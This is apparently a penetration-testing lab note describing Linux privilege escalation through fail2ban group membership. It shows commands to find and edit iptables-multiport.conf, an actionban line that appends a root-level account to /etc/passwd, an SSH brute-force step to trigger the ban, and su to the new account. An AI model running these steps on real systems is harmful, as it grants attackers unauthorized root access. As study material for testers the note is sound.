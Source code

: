 Running `id` shows we are part of fail2ban group

![[Pasted image 20221110103107.png]]

Find the iptables-multiport.conf file:
```bash - target
find / -type f -iname iptables-multiport.conf 2> /dev/null
```

Verify that we have read / write privs:
```bash - kali
ls -lah /etc/fail2ban/action.d/iptables-multiport.conf
```

```bash - target
nano /etc/fail2ban/action.d/iptables-multiport.conf
```

[[17._passwd file]]

```bash - target
actionban = echo "newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash" >> /etc/passwd
```

![[Pasted image 20220403120429.png]]

Now force the bad by flooding ssh requests:
![[TechLexicon/Penetration Testing/Reference/7._Tools/Hydra#Hydra against SSH]]

```bash - target
su newroot
```

```bash - target
password
```
